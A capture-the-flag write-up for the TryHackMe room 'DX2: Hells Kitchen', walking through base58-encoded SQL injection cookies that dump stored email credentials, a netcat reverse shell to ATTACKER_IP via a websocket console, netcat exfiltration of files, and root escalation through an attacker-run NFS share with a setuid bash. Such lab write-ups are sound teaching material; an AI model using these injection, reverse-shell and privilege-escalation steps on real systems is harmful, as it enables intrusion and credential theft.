





# DX2: Hells Kitchen
---
[TryHackMe](https://tryhackme.com/room/dx2hellskitchen)
>|hard|linux|web|
---
>We need to recover the lost Ambrosia shipment from the NSF (National Secessionist Forces), the only treatment for the plague known as the Grey Death. However, we haven't located their main base of operations.
>
>What we do know is some of the key figures in the organisation, and their associates: Jojo Fine, a punk who runs drugs through Hell's Kitchen, has been identified as a lieutenant in the NSF, and has one Sandra Renton, the daughter of a local hotelier for the 'Ton Hotel on his payroll.
>
>Investigate the websites of the 'Ton Hotel and see if you can find anything that leads us to the NSF.
## nmap & endpoints
- rooms-available checks based on API, lets check further with curl
  => static/new-booking.js - checks cookies, taking one from browser, we explore: 55oYpt6n8TAVgZajLJAKx7pKh
- The cookie is base58 encoded, contains booking_id:<booking_number>


## Messing around with the cookie:

4JM2kc4MgR8vm5J3DCq1EqxbMwQeB4tq17KfLapTgrcGuFSdEJ3 = `booking_id:1' UNION SELECT 1,2 -- - `
- enumerating DB version & type:
  - 2oHocZwLuCN73cLQ2ZizLGQvhHhxNEe2Mh1s59BQhxr13mNoHDAjiJ5ieQdWCmWH4kvw8UJoh
  - QdS4XaA3JytfeusyziESfPBojkiYYdwEJDtDiUFoBKNU9wN3B3UBEa7VAJHc56bKGMjbq6F - success - version= 3.42.0, DB  is sqlite.
  - information schema: tw8Q8fiT3nuCDgmLGeARv4YesPbGDrmJpENXbaRL8NNxxo6rL8gMa9Haor2cjg46sLZTKzDCpHpzcYP
  - table enumeration: mTfmyYmAA4F3xnwemfwfzgjP6n6Eyman7uAGYKVxuB62JmeVGgbSVcRzQSezoFC3GGmvXDA5es9spXfYnyvXCm47nhzv4LMWNMrspzTwjagg6SKFuytX9ohCx8svusPM9d4ApADwE8x9S2tG1W7o1CvWxMKeJr4dwLfffGN4y4USPMfM : {"room_num":"1","days":"email_access,reservations,bookings_temp"}                                
  - enumerating tables:
    - Reservations: 826ziSxyPnjgueiixAiYi77a6TevWTPwGXTEHYutBZqtCBtd42UV2hHY1PWchpahnDwZNfB2P7z5WFsXdBtHY92A7aSrWvpsR1y8NQh7i3hmLKsZ5wu (guest_name, room_num, days_remaining)
    - email_access: 826ziSxyPnjgueiixAiYi77a6TevWTPwGXTEHYutBZqtCBtd42UV2hHY1PWchpahnDwZNfB2P7z5WFsXdBtHY92A7Y59XqadzENyiJuMvSVZHbHL5iF (guest_name, email_username, email_password) !!
    - bookings_temp: XysTjwc3uasR9PVAAVtNxRz156ePB1WEXXQme3rQudxkxP4r8MWJiUoyriMibB1kzc7otbVF6dpvt8e2Aj3MzSQ7Doj5m5hXyRepVHDdfbjRs5dbyVHq (booking_id, room_num, days)

- Let's explore the email_access for username and password.
`booking_id:1' UNION SELECT group_concat(email_username), group_concat(email_password) FROM email_access -- -` === DU2Kyd7461FVD3JNJXW3WkGFfcr6rihcb46H3uRcd6cNjJmcsfe3Vf95UtHEy6RwQ4yXekQNpjkbZqpGKhRUwyABYWQk3Q2BtCxHxRnitAankfsonCZDiWaSKcvbynEJKdkTYRceFoCq5VkP8wYZd

 curl $IP/api/booking-info?booking_key=DU2Kyd7461FVD3JNJXW3WkGFfcr6rihcb46H3uRcd6cNjJmcsfe3Vf95UtHEy6RwQ4yXekQNpjkbZqpGKhRUwyABYWQk3Q2BtCxHxRnitAankfsonCZDiWaSKcvbynEJKdkTYRceFoCq5VkP8wYZd
{"room_num":"NEVER LOGGED IN,NEVER LOGGED IN,NEVER LOGGED IN,pdenton,NEVER LOGGED IN,NEVER LOGGED IN","days":",,,<*REDACTED*>,,"}
 => pdenton:<*REDACTED*>

## gobuster & NYC
discovered mail and WS;

## Reverse shell
ws is the websocket updating time on the page in real time, through console, one can send commands, which are unrestricted. => reverse shell `busybox nc -e /bin/sh ATTACKER_IP PORT`
commands cannot be too long or the ws will show just invalid; will have to download the script from our server. (`python3 -m http.server 443`)
and set up a listener at a port that's open for the server (443, can try 81,.........)

Finally works, spawning shell `SHELL=/bin/bash script -q /dev/null`
spawned as gilbert, searching `$HOME` reveals note with something that appears as a password for account *sandra:<REDACTED>*

`sudo -l` reveals we can use ufw status -> the only open ports are 80, 443

there's a note from sandra as well; find all docs from sandra (`find / -type f -user sandra 2>/dev/null`)
found a note from her in */srv/.dad*, we read it and noticed it contains sandra's password, `su sandra` -> user flag

Found a user flag in sandra's home dir:


using netcat, we download picture from sandra:
`nc -vw3 <attacker_ip> <port> < /home/sandra/Pictures/boss.jpg` (on the remote machine)
locally;
`nc -vlp <port> > boss.jpg`
the picture contains the password to jojo's account.

switching to Jojo, `sudo -l` reveals we can use `/usr/sbin/mount.nfs` as root. So we set up a malicious nfs share locally and share it to Jojo:
```bash
sudo -i 
apt update
apt install nfs-kernel-server
mkdir -p /srv/nfs/shared
chown nobody:nogroup /srv/nfs/shared
chmod 755 /srv/nfs/shared
# next we add it to /etc/exports
echo '/srv/nfs/shared *(rw,sync,no_subtree_check)' >> /etc/exports
# start the server 
systemctl enable nfs-server
systemctl start nfs-server
# open it on port 80, which is allowed on the server
vim /etc/nfs.conf # uncomment line `port` in [nfsd], change the value to 80
systemctl restart nfs-server
systemctl restart rpcbind
# check the share is up & running:
rpcinfo -p # shoud see the nfs server running on port 80
```

On the target machie:
`su sandra`
and disable the web so that port 80 is free to connect to our nfs share:
`sudo /usr/bin/systemctl stop tonhotel`
and switch back to Jojo:
`su jojo`
and connect to the share:
`mkdir share; sudo /usr/sbin/mount.nfs -o port=80 <attacker_ip>:/ /home/jojo/share -wv`
Now we are connected to our share and need to transfer & modify the bash so jojo can run as root. Firstly, we transfer the shell:
Locally:
`nc -vlp 443 > shell`
(listen on the opened connection for a file)
Target:
`nc -vw3 <attacker_ip> <port> < /bin/bash`
This sends the shell to our machine, where we modify it so jojo can run it properly:
Locally:
`chmod +sx shell; mv shell /srv/nfs/shared`
Then as jojo we can run:
`./shared/shell -p`
which provides us with the root shell. Lastly, we read the root flag:
`cat /root/root.txt`

